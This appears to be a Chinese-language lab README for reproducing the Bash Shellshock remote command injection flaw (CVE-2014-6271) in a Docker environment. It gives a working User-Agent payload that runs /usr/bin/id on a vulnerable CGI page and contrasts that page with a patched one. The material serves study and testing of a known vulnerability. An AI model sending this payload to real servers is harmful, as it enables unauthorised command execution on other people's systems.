


# Bash Shellshock 远程命令注入漏洞（CVE-2014-6271）

编译运行：

```
docker compose up -d
```

服务启动后，有两个页面 `http://your-ip:8080/victim.cgi` 和 `http://your-ip:8080/safe.cgi`。其中 safe.cgi 是最新版 bash 生成的页面，victim.cgi 是 bash4.3 生成的页面。

将 payload 附在 User-Agent 中访问 victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：



同样的数据包访问 safe.cgi，不受影响：


